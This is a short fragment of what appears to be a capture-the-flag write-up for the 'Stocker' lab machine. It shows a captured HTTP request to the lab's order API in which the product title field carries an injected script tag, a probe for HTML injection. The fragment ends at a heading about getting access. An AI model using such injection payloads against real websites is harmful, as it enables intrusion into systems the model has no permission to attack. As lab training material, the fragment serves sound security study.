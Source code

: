 ```bash
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 156
Connection: close
Cookie: connect.sid=s%3ADFDen9ndX9YhJQIRnVnuvrdiVXf-w1Vs.Eo%2F7JNvnDg1VAkew8sYHN%2F%2BkDkm4xPR1dQA5uM8I4Bk

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<script>document.write('kodiak')</script>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```

![Screenshot_2023-01-28_15-29-31.png](Stocker%208be61598711c4b7bbdfe347f58eba7d8/Screenshot_2023-01-28_15-29-31.png)

# Getting an access.
